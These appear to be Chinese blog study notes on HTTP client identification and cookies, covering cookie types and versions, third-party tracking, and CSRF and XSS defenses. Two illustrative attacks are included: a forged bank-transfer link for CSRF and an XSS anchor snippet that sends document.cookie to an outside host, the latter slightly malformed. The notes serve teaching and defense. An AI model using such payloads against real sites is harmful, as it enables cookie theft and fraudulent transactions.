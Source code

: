 ```yaml
---
title: Http 权威指南 第十一章 客户端识别与Cookie机制 笔记
date: 2020-06-10 10:02:23
tags:
---
```

##### 不可靠的识别，一般爬虫可能使用: 
Http 首部: From、User-Agent、Referer

##### 客户端IP地址:
1. IP 地址会变化
2. 通过网络地址转换(Network Address Transition NAT)可以隐藏真实的 IP 地址
3. 经过代理或网关转发的新连接，导致服务器只看到代理的IP地址 (有些代理会添加扩展的         Client-IP\X-Forwarded-For 首部)

##### 用户登录
Http 内建机制: 通过 WWW-Authenticate 首部和 Authorization 首部向 Web 站点传送用户相关信息(服务器回送 401 Login Required 状态码)
缺点: 繁琐，体验极差

##### 胖URL
<!--more-->

#### cookie
实现持久会话的最好方式
- 分类:
***会话cookie*** : 用户退出浏览器即删除 
***持久cookie*** : 存储在硬盘上
两者唯一的区别就是过期时间，如果设置了 Discard 参数，或者没有设置 Expires 或 Max-Age 参数来说明扩展的过期时间，这个 cookie 就是一个会话 cookie

#### cookie 基本思想:
让浏览器积累一组服务器特有的信息，每次访问服务器时都将这些信息提供给它。
因为浏览器要负责存储 cookie 信息，所以此系统被称为 ***客户端侧状态(client-side state)***
#### cookie 规范正式名称: HTTP 状态管理机制(HTTP state management mechanism)

#### cookie 版本
- 版本0:
  Set-Cookie 首部: 
  Cookie 首部: 将所有与 域、路径和安全过滤器匹配的未过期 cookie 都发送，且所有 cookie 都被组合到一个 Cookie 首部中
- 版本1:
  Set-Cookie2 首部: 多了一些可用属性，比如 Discard(说明为会话cookie)、Max-Age(相对秒数)、Port
  Cookie2 首部: 携带更多的信息

#### cookie 与会话跟踪
第三方网站引导发出的 Cookie，就称为第三方 Cookie。它除了用于 CSRF 攻击，还可以用于用户追踪。

#### cookie 与缓存
私有的内容不可缓存


#### cookie 安全问题
- cookie 相关特性: http 请求会自动携带请求所在域名的 cookie

- CSRF (XSRF) (Cross-site request forgery) 跨站请求伪造
  也被称为 ***one-click attack***
  栗子: 小明刚刚在360浏览器登陆过中国银行网站，登录状态还有效，这时小明在逛一个有趣的论坛，小明在浏览一个有趣的帖子，帖子里有个人回复了留言和一个外链([点我看美女](http://www.chinabank.com/transfer?from=xiaoming&amount=10000&to=heike))，那么小明点击，浏览器就会发出一个携带 www.chinabank.com 域名下的 cookie 的请求，Refer 可能是当前这个论坛的域，所以小明损失一万块
  或者: 一个钓鱼网站有向中国银行转账接口提交的表单，诱发用户点击按钮，就会携带 cookie 提交表单
***防御措施*** :
1. 检查 Referer 字段
  此方法完全依赖客户端浏览器发送正确的值
2. 添加校验 token
  登录后服务器返回一个 token，前端把这个 token 添加到 http 请求的首部，攻击者无从事先得知这个 token 的值
3. SameSite 属性
  Set-Cookie: CookieName=CookieValue; SameSite=Strict;
  Strict: 只有当前网页的 URL 与请求目标一致，才会带上 Cookie
  Lax: (默认) 大多数情况也是不发送第三方 Cookie，但是导航到目标网址的 Get 请求除外 (导航到目标网址的 GET 请求，只包括三种情况：链接，预加载请求，GET 表单)
  None: 值为 None 时，必须同时设置 Secure 属性，表示 cookie 只能通过 HTTPS 发送，Set-Cookie: widget_session=abc123; SameSite=None; Secure
4. 表单嵌入同步令牌（一个随机唯一的 token）


- XSS (Cross-site scripting  XSS) 跨站脚本
  跨站脚本是代码注入的一种
  注入下面这个代码可以获取到 cookie 并发送到 恶意网站
  <a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
  ***攻击手段和目的*** : 获取 cookie，获取本地存储的用户敏感信息，其他操作
  ***防御措施*** :
  1. 过滤特殊字符
    客户端和服务器端都对输入增加正则校验，没有通过校验则客户端不允许提交，服务器端不允许入库
  2. 数据转义
    前端把需要展示到页面的数据转义，比如直接 replace script 标签，遇到 “<” 或 “>” 添加 “\” 转义处理
  3. 设置 http-only 属性
    cookie 有一个 http-only 属性，表示 cookie 只能被 http 请求携带，不能通过 document.cookie 获取

***cookie 会导致频繁发送 首部体积庞大 的请求***

构建用户跟踪: 将持久 cookie 与 IP 地址、Referer 结合可以构建相当精确的用户档案和浏览模式信息
__第三方 cookie__ : 
通常cookie的域和浏览器地址的域匹配，这被称为第一方cookie。那么第三方cookie就是cookie的域和地址栏中的域不匹配，这种cookie通常被用在第三方广告网站。为了跟踪用户的浏览记录，并且根据收集的用户的浏览习惯，给用户推送相关的广告。 
举个例子，用户正在访问的的正规网站的域名为 A，广告商的域名为 B。那么即使用户浏览器地址栏显示为A，但实际上浏览器做了两次请求，一次给 A 为了显示正常内容，一次给 B 为了显示广告内容。这样的话 A 和 B 实际上都可以通过浏览器使用 cookies。区别在于，A 的 cookie 值只属于A，B 的 cookie 值只属于 B。下次用户在进入网站 C 里面如果还有 B 的<iframe> 广告，那么 B 就可以通过之前在 A 网站上做的记录，给用户精准投放广告。至于 B是怎么知道用户在A上看过什么，那就是 A 和 B 之间的事了。亦或者 B 本身就是一个比较流行的网站，例如百度或者淘宝，它自己就可以记录用户习惯，然后再投到它的其他广告里。这就是为什么你在淘宝进行了搜索，然后再新浪微博页面上居然能看到该搜索有关的广告。这就是因为新浪微博的页面上有一个 <iframe> 显示了淘宝的广告。

